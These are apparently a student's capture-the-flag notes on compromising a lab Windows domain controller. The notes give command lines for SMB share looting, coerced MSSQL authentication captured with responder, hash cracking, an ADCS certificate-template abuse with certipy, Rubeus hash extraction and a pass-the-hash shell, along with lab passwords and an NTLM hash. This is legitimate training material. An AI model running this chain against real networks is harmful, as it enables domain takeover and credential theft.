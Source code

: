 # Take Away
- Logs are important and can sometimes contains sensitive information like passwords.
- One thing that always needs enumeration on a Windows domain is to look for Active Directory Certificate Services (ADCS). A quick way to check for this is using `netexec`
	- ``
# Metadata
- Enumerating and downloading the file within publicly-accessible share `Public` using `netexec smb 10.10.11.202 -u guest -p "" -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=/home/saxon/Desktop/smb` will reveal a `.pdf` file containing a pair of `mssql` credential `PublicUser:GuestUserCantWrite1`.![[Pasted image 20240302142447.png]]
- After logging in with `impacket-mssqlclient PublicUser:GuestUserCantWrite1@10.10.11.202`, one does not have the privilege to enable `xp_cmdshell` but can call `xp_dirtree \\10.10.14.6\test,1,1` to force authentication.
	- Run `sudo responder -i tun0 -A` to capture the authentication request and extract `NET-NTLMv2` hash.![[Pasted image 20240302145354.png]]
- Use `hashcat -m 5600 sql_svs.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force` to crack the hash to obtain a pair of valid domain credential `sql_svc:REGGIE1234ronnie`.![[Pasted image 20240302152340.png]]
- Spraying the credential, one can identify that `sql_svc` can access the host using `winrm`.![[Pasted image 20240302152935.png]]
- One thing that always needs enumeration on a Windows domain is to look for Active Directory Certificate Services (ADCS). A quick way to check for this is using `netexec`
	- Add the `10.10.11.202 dc.sequel.htb` to `/etc/host`.
	- Run `netexec ldap 10.10.11.202 -u ryan.cooper -p NuclearMosquito3 -M adcs` to confirm the existence of PKI from ADCS.![[Pasted image 20240302172918.png]]
- Running `certipy-ad find -dc-ip 10.10.11.202 -u Ryan.Cooper@sequel.htb -p NuclearMosquito3 -stdout -vulnerable` will identify a vulnerable certificate template.![[Pasted image 20240302170418.png]]
# Exploitation
- Obtain a session with `evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie` as user `sql_svc`.
	- Navigate to `C:\SQLServer\Logs` and go through `ERRORLOG.BAK` to identify a another pair of potential credential `sequel.htb\Ryan.Cooper:NuclearMosquito3`.![[Pasted image 20240302155036.png]]
	- Spraying the credential again can find that it can be used to access the host using `winrm`.![[Pasted image 20240302155207.png]]
-  Obtain a session with `evil-winrm -i 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3` as user `Ryan.Cooper`.
# PrivEsc
- Run `certipy-ad req -u Ryan.Cooper@sequel.htb -p NuclearMosquito3 -dc-ip 10.10.11.202 -target 10.10.11.202 -upn administrator@sequel.htb -ca sequel-DC-CA -template UserAuthentication` to get a `.pfx` file as `sequel\administrator`.
- Upload `Rubeus.exe` and `administrator.pfx` to the target host. Run `.\Rubeus.exe asktgt /user:administrator /certificate:administrator.pfx /getcredentials` to obtain the `NTLM` hash `A52F78E4C751E5F5E17E1E9F3E58F4EE` of the domain administrator account.![[Pasted image 20240302193035.png]]
- Run `impacket-psexec -hashes :A52F78E4C751E5F5E17E1E9F3E58F4EE sequel/administrator@10.10.11.202 powershell.exe` to obtain a shell session as domain administrator.